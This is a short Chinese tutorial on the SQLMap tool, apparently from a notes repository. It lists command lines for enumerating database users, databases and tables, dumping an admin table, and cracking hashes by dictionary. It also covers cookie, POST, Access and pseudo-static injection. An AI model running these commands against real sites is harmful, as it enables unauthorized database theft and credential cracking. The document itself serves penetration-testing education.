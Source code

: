 # SQLMap应用
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x01 简介
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;SQLmap是一个自动化的SQL注入工具，其主要功能是扫描，发现并利用给定的URL的SQL注入漏洞，目前支持的数据库是MySQL，Oracle，PostgreSQL，Microsoft  SQL  Server，Microsoft Acess，IBM DB2，SQLLite，Firebird，Sybase和SAP MaxDB……SQLmap采用几种独特的SQL注入技术，分别是盲推理SQL注入，UNION查询SQL注入，对查询和盲注。其广泛的功能和选项包括数据库指纹，枚举，数据库提取，访问目标文件系统，并在获取完全操作权限时实行任意命令
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x02 详解 
![](/assets/WX20190306-160348@2x.png)
![](/assets/WX20190306-161610@2x.png)
![](/assets/WX20190306-162251@2x.png)
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 流程 (目标注入地址尽量用双引号引起来)
![](/assets/AF1C4C8C3124CC854FBE3962B95BFA39.png)


```python
    URL 形如 "http://172.16.12.2/inject.php?id=1"
    sqlmap.py -u "URL" --users              --users: 查看当前用户
    sqlmap.py -u "URL" --current-user       --current-user: 查看当前用户
    sqlmap.py -u "URL" --dbs                --dbs: 列举数据库
    sqlmap.py -u "URL" --current-db         --current-db: 当前数据库
    sqlmap.py -u "URL" -D dbname  --tables              dbname:指定数据库名称 --tables:列出某数据库上的所有表
    sqlmap.py -u "URL" -D dbname -T tablename --columns -D    --columns:列出指定表上的所有列
    sqlmap.py -u "URL" -D sqlinject  -T admin -C 字段 --dump  --dump:导出列里面的字段
    然后回车默认通过字典来破解，选择1利用自带的字典暴力破解
```
###&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;0x03 其他总结

```python
    1.ACCESS注入:sqlmap.py -u www.xxx.asp?id=7" --tables
    2.cookie注入: sqlmap.py -u www.xxx.asp.asp --cookie "id=31" --table --level 2
    3.post注入: sqlmap.py -r 抓包数据.txt --dbs
    4.伪静态注入: sqlmap.py -u www.xxx.com/xxx*.html -D 数据库 --tables
```









 








